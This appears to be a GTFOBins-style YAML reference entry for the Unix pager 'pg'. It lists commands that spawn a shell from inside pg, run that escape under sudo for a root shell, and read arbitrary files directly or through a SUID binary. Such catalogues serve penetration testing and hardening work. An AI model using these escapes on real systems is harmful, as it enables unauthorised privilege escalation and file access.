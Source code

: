```yaml
---
name: pg
functions:
  shell:
    - code: |
        pg /etc/profile
        !/bin/sh
  file-read:
    - code: pg file_to_read
  sudo:
    - code: |
        sudo pg /etc/profile
        !/bin/sh
  suid:
    - code: ./pg file_to_read
---
```

